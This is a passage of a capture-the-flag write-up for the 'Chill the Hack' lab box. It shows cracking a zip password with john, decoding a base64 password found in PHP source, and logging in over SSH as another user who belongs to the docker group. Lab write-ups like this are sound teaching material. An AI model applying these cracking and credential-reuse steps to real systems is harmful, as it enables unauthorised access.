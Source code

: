 Now we can use john to crack the password.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ john jhonny --wordlist=/usr/share/wordlists/rockyou.txt
```

Yeaaah, we've got it

> _pw : pass1word_

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ john jhonny --show
backup.zip/source_code.php:pass1word:source_code.php:backup.zip::backup.zip
1 password hash cracked, 0 left
```

Now let's unzip the backup folder

```bash
──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password:
  inflating: source_code.php
```

We got some sort of php source code. Reading its content got me this encoded password `IWQwbnRLbjB3bVlwQHNzdzByZA==`.

It is a **base64** string, let's decode it.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
!d0ntKn0wmYp@ssw0rd
```

We got some sort of a password, but who's password is this?

Remember earlier, there was 2 users communicating in that `note.txt`. Maybe the password belongs to one of them...

And since we've already got the user's flag, it is not far that the password is for the other user `anurodh`.
Let's test that out.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/Chill the Hack]
└─$ ssh anurodh@10.10.13.242
```

And we are in !!!

```bash
anurodh@ubuntu:/home$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

We are in the `docker` groupe !!
